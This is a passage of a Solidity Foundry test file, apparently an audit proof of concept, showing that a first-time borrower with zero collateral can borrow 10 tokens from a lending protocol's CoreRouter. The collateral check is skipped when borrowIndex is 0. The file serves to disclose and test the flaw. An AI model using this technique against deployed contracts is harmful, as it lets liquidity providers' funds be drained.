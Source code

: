 ```solidity
        router = CrossChainRouterMock(routerAddress);
        lendStorage = LendStorage(lendStorageAddress);
        coreRouter = CoreRouter(coreRouterAddress);
        lendtroller = Lendtroller(lendtrollerAddress);
        interestRateModel = InterestRateModel(interestRateModelAddress);
        priceOracle = SimplePriceOracle(priceOracleAddress);
        lTokens = lTokenAddresses;
        layerZeroEndpoint = _layerZeroEndpoint;
        supportedTokens = _supportedTokens;

        testHelper = TestHelper(payable(layerZeroEndpoint));

        // Set up initial prices for supported tokens
        for (uint256 i = 0; i < supportedTokens.length; i++) {
            priceOracle.setDirectPrice(supportedTokens[i], 1e18);
        }
        // 2) Tell Lendtroller to support each lToken market
        //    and set a 75% collateral factor (0.75e18) on that market.
        for (uint256 i = 0; i < lTokens.length; i++) {
            address m = lTokens[i];
            // enter the market so CoreRouter can later call “enterMarkets”
            lendtroller._supportMarket(LToken(m));
            // set collateral factor to 75%
            lendtroller._setCollateralFactor(LToken(m), 75e16); // 0.75e18
        }
    }

    /// @notice This test shows that if a user has never borrowed before (`borrowIndex == 0`),
    ///         `CoreRouter.borrow(...)` will skip the “collateral ≥ debt” check (because `borrowAmount` is set to 0),
    ///         allowing a first‐time borrow with zero collateral—so long as the market has liquidity.
    function test_firstBorrowWithoutCollateralSucceeds() public {
        // 1) Set up a “liquidity provider” (lp) who supplies 100 tokens into the pool,
        //    so that the market actually has cash to lend.
        address lp = makeAddr("liquidityProvider");
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);

        // Mint 100 underlying tokens to lp, approve CoreRouter, then supply
        vm.startPrank(lp);
        ERC20Mock(token).mint(lp, 100e18);
        IERC20(token).approve(address(coreRouter), 100e18);
        coreRouter.supply(100e18, token);
        vm.stopPrank();

        // 2) Now pick a fresh “attacker” account that has never supplied or borrowed.
        address attacker = makeAddr("attacker");

        // At this point, `attacker` has ZERO collateral in the protocol.
        // Because `borrowIndex == 0`, CoreRouter’s internal `borrowAmount` will be set to 0,
        // and the check `require(collateral >= borrowAmount)` always passes.

        vm.startPrank(attacker);
        // Attempt to borrow 10 tokens with NO collateral.
        // Normally this should revert, but because of the bug it will succeed.
        coreRouter.borrow(10e18, token);
        vm.stopPrank();

        // 3) Verify that `attacker` actually received 10 tokens—even though they supplied nothing.
        assertEq(IERC20(token).balanceOf(attacker), 10e18, "Attacker should have 10 tokens");

        // 4) Verify that the borrow balance in storage is now 10 tokens,
```